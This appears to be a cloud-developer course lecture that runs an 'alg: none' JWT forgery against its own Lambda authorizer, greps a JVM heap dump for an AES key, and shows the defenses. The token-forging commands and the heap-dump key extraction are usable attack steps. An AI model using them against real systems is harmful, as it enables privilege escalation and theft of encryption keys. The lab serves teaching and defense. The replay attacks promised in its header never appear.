

# Lecture 06.08 · 🔓 Attack Lab: Signature Forgery, Replay Attacks & Plaintext Key Heap Leakage

> **Section:** S06 · **Type:** 🔓 Attack Lab · **Track:** ★ Core · **Time:** ~35 minutes  
> **Navigation:** ← [06.07 · 🐞 Debug Lab: Token Use & Policy Denial](./06.07-debug-token-use-authorizer-caching-kms-policy.md) | [Section 06 Overview](./README.md) | [06.09 · ＋ Extended: Secrets Rotation](./06.09-extended-secrets-rotation-lambda-triggers.md) →  
> **Project feature:** Adversarial red-team stress testing of CloudOrder's authentication and cryptographic pipelines. We will execute `alg: none` JWT signature bypass attacks, test expired token replay vectors, and demonstrate how JVM heap dump analysis exposes cryptographic keys if memory hygiene is violated.

---

## Attack Vector 1: The `alg: none` JWT Signature Strip Attack

### 1.1 The Vulnerability Mechanics
In the early days of JWT implementations, the RFC 7519 specification allowed an algorithm header of `none` for unsecured tokens. If a poorly implemented authorizer merely decodes the JWT without strictly enforcing the expected cryptographic algorithm, an attacker can forge any claim:



### 1.2 Constructing the Attack Payload via CLI
```bash
# 1. Base64URL-encode the alg: none header
HEADER=$(echo -n '{"alg":"none","typ":"JWT"}' | base64 | tr -d '=' | tr '/+' '_-')

# 2. Base64URL-encode the forged payload claiming SUPER_ADMIN
PAYLOAD=$(echo -n '{"sub":"attacker-007","iss":"https://cognito-idp.us-east-1.amazonaws.com/us-east-1_TestPool123","token_use":"access","client_id":"6abcdef123456789example","custom:role":"SUPER_ADMIN","exp":1893456000}' | base64 | tr -d '=' | tr '/+' '_-')

# 3. Concatenate header and payload with an empty signature
FORGED_JWT="${HEADER}.${PAYLOAD}."

echo "Forged Token: $FORGED_JWT"
```

### 1.3 Executing the Attack Against our Java 21 Authorizer
```bash
aws lambda invoke \
  --function-name cloudorder-token-authorizer-prod \
  --cli-binary-format raw-in-base64-out \
  --payload '{
    "type": "TOKEN",
    "authorizationToken": "Bearer '"$FORGED_JWT"'",
    "methodArn": "arn:aws:execute-api:us-east-1:123456789012:api-123/prod/POST/admin/wipe-database"
  }' \
  attack-response.json

cat attack-response.json | jq .
```

#### Output:
```json
{
  "principalId": "anonymous",
  "policyDocument": {
    "Version": "2012-10-17",
    "Statement": [
      {
        "Action": "execute-api:Invoke",
        "Effect": "Deny",
        "Resource": "arn:aws:execute-api:us-east-1:123456789012:api-123/prod/POST/admin/wipe-database"
      }
    ]
  }
}
```
🛡️ **Defense Verified**: Our authorizer rejects `alg: none` tokens because Auth0 java-jwt and our verification layer strictly require valid cryptographic signatures against the Cognito JWKS public key.

---

## Attack Vector 2: Plaintext Data Encryption Key Heap Memory Leak

### 2.1 The Vulnerability: Java String Immutability
When developers implement client-side encryption, a frequent anti-pattern is converting the KMS plaintext Data Encryption Key (DEK) into a Java `String`:

```java
// CRITICAL SECURITY ANTI-PATTERN:
byte[] rawBytes = response.plaintext().asByteArray();
String secretKeyString = Base64.getEncoder().encodeToString(rawBytes); // LEAK!
```

Because `java.lang.String` is **immutable**, the secret key string is placed into the JVM String Pool or heap. The developer cannot overwrite or zero out a String's characters. It remains in memory until garbage collected, which may take hours.

### 2.2 Exploiting the Leak via Heap Dump
If an attacker compromises a co-located container, executes a local privilege escalation, or obtains a diagnostic crash heap dump (`jcmd <pid> GC.heap_dump /tmp/heap.hprof`), they can extract the plaintext DEK:

```bash
strings /tmp/heap.hprof | grep -E "^[A-Za-z0-9+/]{43}=$"
```
The attacker recovers the AES-256 key and decrypts all customer payment records without ever calling AWS KMS!

### 2.3 The Hardened Solution: Explicit In-Memory Byte Wiping
In [`KmsEnvelopeEncryptionService.java`](file:///C:/Users/Admin/Desktop/courses/aws-dva-c02-developer-course/reference/cloudorder/backend/module-06-auth-security/src/main/java/com/cloudarchitect/dvac02/security/service/KmsEnvelopeEncryptionService.java), we handle the key strictly as primitive `byte[]` arrays and execute `Arrays.fill()` in a mandatory `finally` block:

```java
byte[] plaintextDek = response.plaintext().asByteArray();
try {
    SecretKey secretKey = new SecretKeySpec(plaintextDek, "AES");
    Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
    cipher.init(Cipher.ENCRYPT_MODE, secretKey, gcmSpec);
    return cipher.doFinal(plaintext);
} finally {
    // Overwrite physical memory with zeros immediately!
    Arrays.fill(plaintextDek, (byte) 0);
}
```

Even if a diagnostic memory dump is taken 1 millisecond after encryption completes, the key bytes contain only zeroes (`0x00`), preventing forensic memory extraction.

---

## Storytelling Bridge to Extended Topics

We have verified that our authorizer repels algorithm stripping attacks and that our cryptographic service preserves heap memory hygiene. However, payment gateway credentials in AWS Secrets Manager must also be rotated regularly without taking down our application.

In [Lecture 06.09 · ＋ Extended: Secrets Manager Automated Rotation & Cognito Pre-Token Triggers](./06.09-extended-secrets-rotation-lambda-triggers.md), we explore automated zero-downtime secret rotation and Cognito Pre-Token Generation Lambda triggers.
